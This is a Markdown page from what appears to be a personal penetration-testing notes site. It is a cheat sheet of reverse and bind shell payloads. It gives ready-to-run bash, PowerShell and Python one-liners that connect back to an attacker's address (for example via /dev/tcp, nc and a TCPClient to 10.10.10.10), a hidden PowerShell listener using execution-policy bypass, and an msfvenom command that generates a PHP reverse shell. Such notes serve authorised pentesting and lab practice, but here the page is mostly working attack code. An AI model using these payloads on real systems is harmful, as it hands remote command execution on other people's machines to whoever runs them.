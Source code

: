 ```yaml
---
layout: default
title: Payloads
permalink: /payloads/
---
```


# Reverse Shell

First set up a listener on your attacking host:

```
nc -lvnp 1234
```

Firt to get your ip, you can use the `ip` utility:
```
ip addr
```
[SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) contains reverse shell scripts for various languages and web frameworks, and we can utilize any of them to receive a reverse shell as well.

To create a reverse shell payload I can recommend this [online reverse shell generator](https://www.revshells.com/), but here are some example.

## Bash Payloads

```
echo "bash -c 'bash -i >& /dev/tcp/$attacker_ip/$attacker_port 0>&1'" > rev.sh
```
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $attacker_ip $attacker_port >/tmp/f" > rev.sh
```

## PowerShell Payload

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

# Bind Shell

Unlike a Reverse Shell that connects to us, we will have to connect to it on the targets' listening port.

## Bash Payload

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

## Python Payload
```
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

## PowerShell Payload
```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

## PHP
One reliable reverse shell for PHP is the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) PHP reverse shell.

# Msfvenom

### PHP
```
 msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```
Similarly, we can generate reverse shell scripts for several languages. We can use many reverse shell payloads with the -p flag and specify the output language with the -f flag.

# Establish connection

```
nc 10.10.10.1 1234
```
